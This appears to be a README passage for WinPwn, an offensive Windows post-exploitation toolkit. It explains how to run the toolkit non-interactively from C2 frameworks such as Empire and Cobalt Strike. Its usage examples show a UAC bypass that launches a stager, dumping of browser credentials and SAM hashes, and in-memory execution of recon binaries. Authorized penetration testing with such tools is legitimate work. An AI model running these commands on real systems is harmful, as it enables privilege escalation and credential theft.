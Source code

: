 Without parameters, most of the functions can only be used from an interactive shell. So i decided to add the parameters `-noninteractive` and `-consoleoutput` to make the script usable from 
an asynchronous C2-Framework like Empire, Covenant, Cobalt Strike or others.
Additionally the `-repo` parameter was added to use WinPwn with all its features from a local repository. They can be used as follows:

Usage: 

  -noninteractive 	-> No questions for functions so that they run with predefined or user defined parameters  
            
  -consoleoutput    -> The loot/report folders are not created. Every function returns the output to the console 
				    so that you can take a look at everything in the Agent logs of your C2-Framework 
Examples:

`WinPwn -noninteractive -consoleoutput -DomainRecon` 	-> This will return every single domain recon script and 
														   function and will probably give you really much output

`WinPwn -noninteractive -consoleoutput -Localrecon` 	-> This will enumerate as much information for the local
														   system as possible
														   
`Generalrecon -noninteractive`							-> Execute basic local recon functions and store the output
														   in the corresponding folders

`UACBypass -noninteractive -command "C:\temp\stager.exe" -technique ccmstp`	-> Execute a stager in  a high integrity 
																			   process from a low privileged session
																			   
`Kittielocal -noninteractive -consoleoutput -browsercredentials`			-> Dump Browser-Credentials via Sharpweb
																			   returning the output to console
																			   
`Kittielocal -noninteractive -browsercredentials`								-> Dump SAM File NTLM-Hashes and store
																			   the output in a file
																			   
`WinPwn -PowerSharpPack -consoleoutput -noninteractive`					    -> Execute Seatbelt, PowerUp, Watson and 
																			   more C# binaries in memory
																			   
`Dotnetsearch -consoleoutput -noninteractive`						    -> Search in `C:\Program Files\` and `C:\Program Files (x86)\` for .NET assemblies

`WinPwn -repo http://192.168.1.10:8000/WinPwn_Repo`					-> Use a local webserver as offline repo to use WinPwn without internet access	

Get_WinPwn_Repo.sh:

Usage:
./Get_WinPwn_Repo.sh {Option}

Example:
./Get_WinPwn_Repo.sh --install

Options:
--install             Download the repository and place it to ./WinPwn_Repo/
--remove              Remove the repository ./WinPwn_Repo/
--reinstall           Remove the repository and download a new one to ./WinPwn_Repo/
--start-server        Start a python HTTP server on port 8000
--help                Show this help
